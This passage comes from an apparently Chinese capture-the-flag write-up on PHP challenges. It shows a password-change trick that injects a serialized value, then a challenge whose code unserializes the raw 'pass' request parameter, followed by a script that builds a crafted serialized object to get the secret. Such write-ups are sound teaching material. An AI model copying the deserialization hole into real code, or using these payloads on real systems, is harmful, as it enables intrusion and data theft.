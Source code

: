 (1) http://www.80vul.com/webzine_0x06/PSTZine_0x06_0x03.txt (站上默认显示的密码就是个提示...估计是哪位大虾顺手改的)
(2) $userInfo['pass'] = $newPass; //这句，改成 1

### 所以：

(1) 修改 jimbo18714 密码为 8 (2) 再次修改密码，提交时 userInfo 为 8 的序列化,newPass 为 1

## challenge 6

* * *

php code：

```
#GOAL: get the secret;

class just4fun {
    var $enter;
    var $secret;
}

if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];

    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }

    $o = unserialize($pass);

    if ($o) {
        $o->secret = "?????????????????????????????";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}

```

## 攻略：

serialize 一个 just4fun 的对象，序列化之前先赋值给$o->enter (在本地执行是成功的，php4fun.sinaapp.com 不行，代码改了？)

所以：

(1) 生成序列化的对象

```
class just4fun {
    var $enter;
    var $secret;
}

$a=new just4fun();
$a->enter='?????????????????????????????';
echo urlencode(serialize($a));

```
